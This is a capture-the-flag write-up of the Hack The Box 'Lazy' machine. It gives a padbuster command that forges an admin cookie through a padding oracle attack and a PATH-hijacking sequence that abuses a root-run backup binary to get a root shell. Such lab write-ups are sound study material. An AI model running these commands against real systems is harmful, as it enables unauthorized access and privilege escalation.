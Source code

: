 ```yaml
---
title: "Hack The Box - Lazy"
tags: [linux,medium,padding,oracle padding attack,cookie,ssh,SUID,path,path hijacking,cat]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%201.png)

## Enumerating Web :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%202.png)

⇒ After we register and login we don't get anything. Inspecting the cookies we see an `auth` cookie.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%203.png)

⇒ When we change the cookie we get the following error :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%204.png)

⇒ Researching for a while we come to `Padding Oracle Attack`. 

[https://www.hackingarticles.in/hack-padding-oracle-lab/](https://www.hackingarticles.in/hack-padding-oracle-lab/)

The padding oracle attack enables an attacker to decrypt encrypted data without knowledge of the encryption key and used cipher by sending skillfully manipulated ciphertexts to the padding oracle and observing of the results returned by it.

⇒ We will be using padbuster an automated script for performing Padding Oracle attacks.

`padbuster [http://10.10.10.18/index.php](http://10.10.10.18/index.php) ZVrX75FDWtDjgwNByepfkxAvql%2FGQmhR 8 --cookies auth=ZVrX75FDWtDjgwNByepfkxAvql%2FGQmhR --encoding 0 -plaintext user=admin`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%205.png)

→ We got admin cookie. 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%206.png)

⇒ We used editthiscookie extension and just replaced our cookie with the admin cookie :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%207.png)

→ We got user mitsos ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%208.png)

⇒ SSH'ed in as user mitsos using the ssh key :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%209.png)

## Privilege Escalation to root

⇒ In user home directory there's an `backup` binary which is ran as **root** when we run it. 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2010.png)

⇒ After running strings on the binary we see that it does `cat /etc/shadow` . Full path to **cat** isn't specified so we can perform path hijacking and escalate our privileges

`cd /tmp
echo '/bin/sh' > cat
chmod +x cat
PATH=/tmp:$PATH
/home/mitsos/backup`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Lazy%20Box%2034d1862a662342e2a61eb68b2748e2eb/Untitled%2011.png)

**ROOTED**

[TL;DR](https://www.notion.so/TL-DR-5e3f2bcec6ab407faad11ce266a40ad2)
